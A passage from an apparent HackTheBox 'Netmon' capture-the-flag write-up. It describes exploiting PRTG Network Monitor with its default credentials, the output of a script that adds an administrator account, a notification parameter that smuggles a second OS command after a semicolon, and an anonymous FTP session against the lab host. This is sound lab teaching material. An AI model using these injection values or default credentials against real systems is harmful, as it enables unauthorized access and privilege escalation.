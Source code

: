 ```console
# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
 ```

And nothing happened - I could not log in with user **pentest** password **P3nT3st!**. This was disappointing so I ran it again just to make sure I wasn't doing anything wrong but it still didn't work. 

I found a blog post explaining how this exploit really works on [codewatch](https://www.codewatch.org/blog/?p=453). So it looks like I can do an OS command injection by sending malformed parameters in sensor or notification management scenarios. Why don't we just try to do it manually?

So I am going to try to attach a notification with an EXE/script and add a small test script to it and see if it works:

![exe_script](./images/exe_script.PNG)  
**Figure 3:** exe_script  

``console
execute program, parameter: test.txt;tree /f c:\users\admin > c:\sdb_test.txt
```

```console
root@apollo:~/htb/netmon# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
```